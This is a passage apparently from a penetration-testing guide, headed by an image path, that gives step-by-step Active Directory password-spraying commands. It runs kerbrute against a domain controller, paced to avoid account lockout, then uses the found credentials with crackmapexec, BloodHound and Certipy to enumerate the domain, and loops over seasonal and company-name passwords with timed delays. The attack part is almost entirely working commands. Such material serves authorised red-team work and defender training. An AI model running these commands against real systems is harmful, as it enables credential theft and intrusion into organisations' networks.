 **Step 3: Password Spray (Carefully!)**

```bash
# Try ONE common password
kerbrute passwordspray --dc 10.10.10.10 -d corp.local valid-users.txt 'Welcome2024!'

# If no hits, try another (WAIT 30+ minutes between attempts!)
kerbrute passwordspray --dc 10.10.10.10 -d corp.local valid-users.txt 'Password123'
```

**⚠️ WARNING:** 
- Only spray 1-3 passwords per day
- Wait 30-60 minutes between sprays
- Check lockout policy first (default is often 5 attempts)

---

**Step 4: Use Found Credentials**

```bash
# If found: john.doe:Welcome2024!

# Verify with crackmapexec
crackmapexec smb 10.10.10.10 -u john.doe -p 'Welcome2024!' -d corp.local

# If valid → Run BloodHound
bloodhound-python -u john.doe -p 'Welcome2024!' -d corp.local -ns 10.10.10.10 -c All --zip

# Run Certipy
certipy find -u john.doe@corp.local -p 'Welcome2024!' -dc-ip 10.10.10.10 -vulnerable
```

**Total Time: 5-10 minutes from zero to domain user**

---

### Scenario 2: Password Spray with Organizational Intelligence

**Use company/season-based passwords:**

```bash
# Create targeted password list
cat > passwords.txt << EOF
Welcome2024!
Fall2024!
Winter2024!
CorpName2024!
Password123
CompanyName123!
EOF

# Spray ONE password at a time (with delays)
for pass in $(cat passwords.txt); do
    echo "[*] Trying: $pass"
    kerbrute passwordspray --dc 10.10.10.10 -d corp.local valid-users.txt "$pass" -o results.txt
    echo "[*] Waiting 30 minutes before next spray..."
    sleep 1800  # 30 minutes
done
```
